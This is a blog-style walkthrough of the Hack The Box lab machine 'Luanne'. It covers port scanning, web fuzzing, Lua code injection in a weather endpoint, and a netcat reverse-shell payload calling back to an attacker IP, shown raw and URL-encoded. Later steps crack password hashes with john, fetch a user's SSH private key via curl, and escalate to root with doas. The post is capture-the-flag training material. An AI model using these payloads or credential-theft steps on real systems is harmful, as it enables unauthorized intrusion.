 ```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/64c7e259-9168-4229-9667-2595a8ddbe3a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T221424Z&X-Amz-Expires=86400&X-Amz-Signature=3ab9ff28a0874d8669aae6712347e3a2c4e2ba8d7b3d8712c15c7e2644973109&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


### Let's start with the Web Page:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4d331ad0-6ca7-4f1d-909f-84f926e8d56e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220747Z&X-Amz-Expires=86400&X-Amz-Signature=65b805dc8bf10b8ecc4d26e664344b6d9bee398bcc14798209258e3103428039&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3a02ba02-588c-4963-9dc7-24ea4943787e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220955Z&X-Amz-Expires=86400&X-Amz-Signature=cc099e62053f11be44e021d0cb5e4789522f0935ca106604f5f0521d40de01a3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### I used ffuf for fuzzing luanne.htb/


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f6b5b7fb-096e-4093-8e4e-c60e9995e58e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221725Z&X-Amz-Expires=86400&X-Amz-Signature=8fc77eddae8de86bd36a0cf5c68b9a9fabfd4662dd30c88f17b2a0a8bed8094f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



* We got robots.txt

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6ab319aa-1ec4-4590-b79a-3a1c662e4592/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221840Z&X-Amz-Expires=86400&X-Amz-Signature=d5b1629ee14b8a6800c3adbee52baa8619ee207b69bb3ef4a574e9163fb2d6b0&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4cc16698-a933-4e1f-b8fe-93d90e352b09/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T222958Z&X-Amz-Expires=86400&X-Amz-Signature=671502ab015208afeb98b1e8115c50c54a76c79eac2badc5047ca95c6a2786ca&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/30d8f697-acbb-4e76-a9d3-f180eef28422/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223205Z&X-Amz-Expires=86400&X-Amz-Signature=54f272392356033508eb550b63db92bf354720ed6607b1ca1a05839ebf2b4a08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/97f1a229-81a0-4fc5-a5bd-a1563ef5d03a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223414Z&X-Amz-Expires=86400&X-Amz-Signature=1a4dc9c7f0f8694c1e8fa955301877b599fc83c7420080adeb386ce8f37a0d03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d25b6f67-0786-4f9a-a430-2037802b6cb9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T224449Z&X-Amz-Expires=86400&X-Amz-Signature=9ccb6b1fb1178961d4a5f681732eb4bd5fdec19c0ecd92531045733a69b1f4df&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b64544ff-c962-4820-89c7-87d16bae551d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T233833Z&X-Amz-Expires=86400&X-Amz-Signature=1c932c8959ac3359021f96e9a027d6478eb9e2d448f981ecb0da2266efb56c24&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/98100502-7a21-44e9-a307-71009920d1f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000029Z&X-Amz-Expires=86400&X-Amz-Signature=ba06437302ef5bb61103ad4745f4a1173b7f3ef368623bb14d2824626fb64d01&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**we got iamthebest**

## Enumerate luanne.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81c7b723-f8c6-4c67-815a-cc6fb50b694e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000501Z&X-Amz-Expires=86400&X-Amz-Signature=dc8d5eac59120d22d8e2ce98cbbbe5c7972cea09e34d87d602ce2f98b9405707&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68cbe7e3-435c-4071-b0c2-362c4e020e4e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000734Z&X-Amz-Expires=86400&X-Amz-Signature=a44ed310321fbe5aa26f79c418f10a2cba6f2bdd49b10dfde7c7b76104cbdf03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/62151e89-8b1e-4410-81d0-576865571022/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000947Z&X-Amz-Expires=86400&X-Amz-Signature=0feb6997691ee9f8b4fb6bc2d50bde74b6fbf1879abab801c6ce75945912f2c4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/274bfca7-5dc2-4e22-829e-fc635a640a9f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T001005Z&X-Amz-Expires=86400&X-Amz-Signature=8eda012b3fa2de684229b9ed534e0dfe70be7b67d8d148d8b4beef47c8da1731&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/577680ad-0d62-4049-8807-06949f11b2bf/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T094912Z&X-Amz-Expires=86400&X-Amz-Signature=dc3af5a2ddd7f2616085ca6eb5b9a49d3f72286e038a5771c55efc9c4413f6a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/cc2830e1-d413-45e5-b2e4-b08f25dc5971/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104638Z&X-Amz-Expires=86400&X-Amz-Signature=24fa5d4156e6580b973a080a29bc407a275802c7282bbf4eb5fbe67b4de71d23&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/c4319954-c801-4fd4-be32-ae661b5395f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104907Z&X-Amz-Expires=86400&X-Amz-Signature=8ebcb5b89974c9bf25f1d1e439ae070680d0272aa7ca73600ed2902daf21e06a&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


## SSH connecting.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/39a3ea0a-a456-4cbc-85bb-f2a108f54ce1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T110437Z&X-Amz-Expires=86400&X-Amz-Signature=30bda8b984028e7110f3f303ac6734f2b6c3f81c73e493926d29435fc55ebee1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d4ce4df0-4220-4d4e-9ecd-9d80f5d439f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111708Z&X-Amz-Expires=86400&X-Amz-Signature=092e4423b90439f98569273f708bf73c7f3326654563b7268cdc2928b410450f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/df9e3cd8-2f09-4ac2-9d4a-de75132cf62f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111924Z&X-Amz-Expires=86400&X-Amz-Signature=adcbf5ffb0181c3da4216b859d3e234763e346959dfbe9e3ead20d0d453149e7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * we access to /webapi but no thing useful.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7e6784ef-44d6-4f6d-966b-fa043e7f028b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112012Z&X-Amz-Expires=86400&X-Amz-Signature=234487128c019cc5bca0afed5d4355c31bc8a33b9ac6c36d8264b785be79deb4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **we access to /www and got another webapi_user.**
 
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0e656a1a-424f-45c4-99e4-1ee73d0a2379/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112121Z&X-Amz-Expires=86400&X-Amz-Signature=0979a19503435017e80de8bdb182cc4d32ff1aa4fb4a9df728d0cb02ae557d63&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/18e18677-6eb5-4bf0-8f8f-e47caec1a68a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114025Z&X-Amz-Expires=86400&X-Amz-Signature=4fb1cad83fb9853f3930e6cbccf4411e5eb4c2c4d2b058b6cc7abcba4345120f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9369b1ff-362e-42f6-920a-7a3eb88b5504/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114352Z&X-Amz-Expires=86400&X-Amz-Signature=1daca75835fcf2777e7d4cdb8368c74cba25ed9acaedeab2f328f86131c3de40&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

# RooTed
![]()

**12:07:12 -0200**
